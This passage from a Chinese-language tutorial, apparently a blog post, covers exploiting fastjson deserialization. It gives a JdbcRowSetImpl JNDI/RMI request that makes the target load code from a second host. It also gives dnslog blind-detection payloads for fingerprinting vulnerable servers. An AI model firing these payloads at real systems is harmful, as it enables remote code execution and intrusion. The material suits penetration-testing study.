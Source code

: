 ```
POST / HTTP/1.1
Host: 192.168.142.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 167

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.142.129:9999/TouchFile",
        "autoCommit":true
    }

}
```

**这个酱紫就是成功的结果。**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRGygfZ3NGIVa3NoYmZbdI3A5QTyR0lB8dPLJicfZu50jnfXxVnZEx1sg/640?wx_fmt=png)

**这个酱紫是失败的**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVR0T5B6Obia8O3vf7gibv6KodcgkcjZibcnFhXY1q9ibuZSmpsc4GPYjCGicA/640?wx_fmt=png)

**dnslog 平台接收到执行命令的结果**  

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRr6Yahu6TH1bGHIlFT51RgKEkrvBFdLnfonO1kUR7SkopPRI7hxAYKA/640?wx_fmt=png)

**0x05 fastjson 指纹特征（****以下摘自 FREEBUF 一灯老和尚大佬的文章****）**
-------------------------------------------------------

### 1 根据返回包判断

任意抓个包，提交方式改为 POST，花括号不闭合。返回包在就会出现 fastjson 字样。当然这个可以屏蔽，如果屏蔽使用其它办法，往后翻。

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEJoHQdjBYUp5E4lVR7eicVRh8V11a65Ho5ricRAqBs0cTDAYvwAkib3xBFJ9AJ3Dab3WBVBiaLg9WGiag/640?wx_fmt=png)

### 2 利用 dnslog 盲打  

构造以下 payload，利用 dnslog 平台接收。

> {"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}

1.2.67 版本后 payload

> {"@type":"java.net.Inet4Address","val":"dnslog"}  
> {"@type":"java.net.Inet6Address","val":"dnslog"}  
> 畸形：  
> {"@type":"java.net.InetSocketAddress"{"address":,"val":"这里是 dnslog"}}

